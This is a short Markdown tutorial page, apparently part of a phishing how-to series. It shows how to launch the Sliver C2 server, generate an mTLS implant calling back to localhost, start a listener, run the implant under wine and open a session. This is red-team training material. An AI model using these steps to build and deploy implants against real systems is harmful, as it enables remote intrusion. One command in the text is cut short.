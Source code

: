 +++
title = "Sliver: Generating an implant"
weight = 50
+++

### Generate a new implant

```bash
mkdir -p ~/Desktop/op/sliver/implants
cd ~/Desktop/op/sliver
~/opt/sliver/sliver-server_linux
```

We should now be in a `sliver` shell.

![SLicer Shell](/static/how-to-phishing/sliver-shell.png)

Now we can gernate a test implant:

```bash
generate --mtls 127.0.0.1 --save implants/default-sliver.exe
```

### Testing implant

In the sliver shell:

```bash
mtls
```

In a new terminal window:

```bash
wine ~/Desktop/
```
![Sliver Implant Test](/static/how-to-phishing/sliver-implant-test.png)

Now we can use the implant by calling `use [session id]`:

![Sliver Implant Usage](/static/how-to-phishing/sliver-implant-use.png)
